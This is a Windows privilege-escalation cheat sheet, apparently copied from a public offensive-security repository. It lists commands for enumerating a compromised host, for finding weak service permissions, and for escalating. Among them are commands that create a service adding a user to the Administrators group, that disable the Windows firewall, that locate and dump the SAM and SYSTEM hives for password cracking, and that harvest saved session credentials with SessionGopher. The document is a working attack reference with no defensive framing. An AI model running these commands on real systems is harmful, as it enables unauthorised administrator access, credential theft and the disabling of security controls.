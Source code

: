 \### Windows Privesc Cheatsheet

\### https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md

\### Windows Version and Configuration

`systeminfo | findstr /B /C:"OS Name"  /C:"OS Version"`

\### Extract patchs and updates

`wmic qfe`

\### Architecture

`wmic os get osarchitecture || echo %PROCESSOR_ARCHITECTURE%`

\### List all env variables

```

cmd line - set

powershell -  Get-ChildItem Env: | ft Key,Value

```

\### List all drives

`wmic logicaldisk get caption || fsutil fsinfo drives wmic logicaldisk get caption,description,providername Get-PSDrive  |  where {$_.Provider  -like  "Microsoft.PowerShell.Core\\FileSystem"}| ft Name,Root`

\### Get current username

`echo %USERNAME% || whoami $env:username`

\### List user privilege

`whoami /priv`

\### Finding vulnerable services

\###### Show permissions of what users/groups can access this service.

```

wmic useraccount where name='username' get sid - this will give you your sid

accesschk.exe  -uwcqv "Username"  *  /accepteula - this will show potentially vulnerable services

sc sdshow <service name from accesschk>  - this will show permissions of a service

```

\###### Create service to execute commands

```

sc create MyService displayName=  "MyService" binPath=  "C:\\Windows\\System32\\net.exe localgroup Administrators hackerman /add" start= auto

```

\### List all users

```

net user

whoami /all

Get-LocalUser  | ft Name,Enabled,LastLogon Get-ChildItem C:\\Users -Force | select Name

```

\### List all local groups

```

net localgroup

Get-LocalGroup  | ft Name

```

\### Get details about a group (i.e. administrators)

```

net localgroup administrators

Get-LocalGroupMember Administrators | ft Name, PrincipalSource

Get-LocalGroupMember Administrateurs | ft Name, PrincipalSource

```

\### List all network interfaces, IP, and DNS.

```

ipconfig /all

Get-NetIPConfiguration  | ft InterfaceAlias,InterfaceDescription,IPv4Address Get-DnsClientServerAddress  -AddressFamily IPv4 | ft

```

\### List the ARP table

```

arp -A

Get-NetNeighbor  -AddressFamily IPv4 | ft ifIndex,IPAddress,LinkLayerAddress,State

```

\### List all current connections

```

netstat -ano

```

\### Disable firewall

```

netsh firewall set opmode disable

netsh advfirewall set allprofiles state off

```

\### List all network shares

`net share`

\### SNMP Configuration

`reg query HKLM\\SYSTEM\\CurrentControlSet\\Services\\SNMP /s Get-ChildItem  -path HKLM:\\SYSTEM\\CurrentControlSet\\Services\\SNMP -Recurse`

\### SAM and SYSTEM files

\###### The Security Account Manager (SAM), often Security Accounts Manager, is a database file.

\###### The user passwords are stored in a hashed format in a registry hive either as a LM hash or as a NTLM hash.

\###### This file can be found in %SystemRoot%/system32/config/SAM and is mounted on HKLM/SAM.

\### Usually %SYSTEMROOT% = C:\\Windows

```

%SYSTEMROOT%\\repair\\SAM

%SYSTEMROOT%\\System32\\config\\RegBack\\SAM

%SYSTEMROOT%\\System32\\config\\SAM

%SYSTEMROOT%\\repair\\system

%SYSTEMROOT%\\System32\\config\\SYSTEM

%SYSTEMROOT%\\System32\\config\\RegBack\\system

```

\### Generate a hash file for John using pwdump or samdump2.

```

pwdump SYSTEM SAM >  /root/sam.txt

samdump2 SYSTEM SAM -o sam.txt

```

\### Passwords stored in services

\###### Saved session information for PuTTY, WinSCP, FileZilla, SuperPuTTY, and RDP using SessionGopher

\###### https://raw.githubusercontent.com/Arvanaghi/SessionGopher/master/SessionGopher.ps1

```

Import-Module path\\to\\SessionGopher.ps1;

Invoke-SessionGopher  -AllDomain -o

Invoke-SessionGopher  -AllDomain -u domain.com\\adm-arvanaghi -p s3cr3tP@ss

```

\### Read a value of a certain sub key

`REG QUERY "HKLM\\Software\\Microsoft\\FTH"  /V RuleList`

\### EoP - Processes Enumeration and Tasks

\###### What processes are running?

```

tasklist /v

net start

sc query

Get-Service

Get-WmiObject  -Query "Select * from Win32_Process"  |  where {$_.Name  -notlike  "svchost*"} | Select Name, Handle,  @{Label="Owner";Expression={$_.GetOwner().User}} | ft -AutoSize

```

\### Which processes are running as "system"

`tasklist /v /fi "username eq system"`

\### Do you have powershell magic?

`REG QUERY "HKLM\\SOFTWARE\\Microsoft\\PowerShell\\1\\PowerShellEngine"  /v PowerShellVersion`

\### List installed programs

```

Get-ChildItem  'C:\\Program Files',  'C:\\Program Files (x86)'  | ft Parent,Name,LastWriteTime

Get-ChildItem  -path Registry::HKEY\_LOCAL\_MACHINE\\SOFTWARE | ft Name

```

\### List services

```

net start

wmic service list brief

tasklist /SVC

```

\### Scheduled tasks

```

schtasks /query /fo LIST 2>nul | findstr TaskName

schtasks /query /fo LIST /v > schtasks.txt; cat schtask.txt | grep "SYSTEM\\|Task To Run"  | grep -B 1 SYSTEM

Get-ScheduledTask  |  where {$_.TaskPath  -notlike  "\\Microsoft*"} | ft TaskName,TaskPath,State

```

\### Startup tasks

```

wmic startup get caption,command

reg query HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\R

reg query HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run

reg query HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\RunOnce

dir "C:\\Documents and Settings\\All Users\\Start Menu\\Programs\\Startup"

dir "C:\\Documents and Settings\\%username%\\Start Menu\\Programs\\Startup"

```